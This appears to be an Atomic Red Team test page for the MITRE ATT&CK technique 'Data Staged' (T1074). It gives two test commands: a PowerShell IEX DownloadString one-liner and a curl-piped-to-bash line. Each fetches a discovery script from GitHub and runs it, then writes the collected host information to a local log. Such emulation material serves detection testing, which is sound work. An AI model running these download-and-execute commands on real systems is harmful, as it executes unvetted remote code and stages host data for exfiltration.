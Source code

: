 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1- Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)
- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat')" > c:\windows\pi.log
```
<br/>

## Atomic Test #2 - Stage data from Discover.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script.

**Supported Platforms:** Linux, macOS


#### Run it with `bash`!
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.sh | bash -s > /tmp/discovery.log
```
<br/>
